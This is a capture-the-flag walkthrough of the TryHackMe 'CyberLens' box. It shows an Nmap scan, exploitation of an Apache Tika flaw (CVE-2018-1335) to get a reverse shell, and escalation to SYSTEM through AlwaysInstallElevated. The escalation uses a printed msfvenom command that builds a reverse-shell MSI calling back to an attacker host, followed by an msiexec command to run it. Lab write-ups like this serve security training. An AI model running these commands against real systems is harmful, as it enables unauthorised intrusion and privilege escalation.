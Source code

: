 # THM - CyberLens

### Ip: 10.10.126.76
### Name: CyberLens
### Rating: Easy

------------------------------------------------

![thm_cyberlens_pic.svg](../assets/cyberlens_assets/thm_cyberlens_pic.svg)

### Challenge Description

```
Welcome to the clandestine world of CyberLens, where shadows dance amidst the digital domain and metadata reveals the secrets that lie concealed within every image. As you embark on this thrilling journey, prepare to unveil the hidden matrix of information that lurks beneath the surface, for here at CyberLens, we make metadata our playground.

In this labyrinthine realm of cyber security, we have mastered the arcane arts of digital forensics and image analysis. Armed with advanced techniques and cutting-edge tools, we delve into the very fabric of digital images, peeling back layers of information to expose the unseen stories they yearn to tell.

Picture yourself as a modern-day investigator, equipped not only with technical prowess but also with a keen eye for detail. Our team of elite experts will guide you through the intricate paths of image analysis, where file structures and data patterns provide valuable insights into the origins and nature of digital artifacts.

At CyberLens, we believe that every pixel holds a story, and it is our mission to decipher those stories and extract the truth. Join us on this exciting adventure as we navigate the digital landscape and uncover the hidden narratives that await us at every turn.

Can you exploit the CyberLens web server and discover the hidden flags? 
```

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/CyberLens]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.126.76
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-15 10:20 CST
Warning: 10.10.126.76 giving up on port because retransmission cap hit (10).
Nmap scan report for cyberlens.thm (10.10.126.76)
Host is up (0.13s latency).
Not shown: 65408 closed tcp ports (reset), 111 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.57 ((Win64))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.57 (Win64)
|_http-title: CyberLens: Unveiling the Hidden Matrix
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: CYBERLENS
|   NetBIOS_Domain_Name: CYBERLENS
|   NetBIOS_Computer_Name: CYBERLENS
|   DNS_Domain_Name: CyberLens
|   DNS_Computer_Name: CyberLens
|   Product_Version: 10.0.17763
|_  System_Time: 2025-01-15T16:22:01+00:00
|_ssl-date: 2025-01-15T16:22:07+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=CyberLens
| Not valid before: 2025-01-14T16:05:07
|_Not valid after:  2025-07-16T16:05:07
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
61777/tcp open  http          Jetty 8.y.z-SNAPSHOT
| http-methods: 
|_  Potentially risky methods: PUT
|_http-cors: HEAD GET
|_http-title: Site doesn't have a title (text/plain).
|_http-server-header: Jetty(8.y.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-15T16:21:59
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.61 seconds
```

Let's add cyberlens.thm to `/etc/hosts`.

Looking at the site we find a file upload that seems to extract metadata from images:

thm_cyberlens_site.png

I uploaded a copy of the screenshot above and it returned it's metadata:

thm_cyberlens_meta.png

Looking at port 61777 at http://cyberlens.thm:61777/ we find it is running Tika:

thm_cyberlense_tika.png

### Exploitation

Looking for exploits against Tika I find interesting writeup: https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/

Which also has a helpful POC script at: https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2018-1335

We can use this exploit script alongside a Base64 encoded PowerShell reverse shell oneliner from revshells.com and get a callback:

thm_cyberlens_shell.png

We can now grab the user.txt flag:

thm_cyberlens_user.png

### Privilege Escalation

We can load up PowerUp.ps1 to help enumerate a privilege escalation vector:

thm_cyberlens_powerup.png

Cool, looks like AlwaysInstallElevated is enabled.

We can manually confirm with:

```
PS C:\temp> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

PS C:\temp> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Let's now create a malicious reverse shell .msi file:

```
┌──(ryan㉿kali)-[~/THM/CyberLens]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.72.91 LPORT=443 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```

Once the file is transferred to the target we can set up a nc listener and run: `msiexec /quiet /qn /i reverse.msi`

Which catches us a shell back as system:

thm_cyberlens_system.png

And we can now grab the final flag:

thm_cyberlens_root.png

Thanks for following along!

-Ryan

-------------------------------------------------

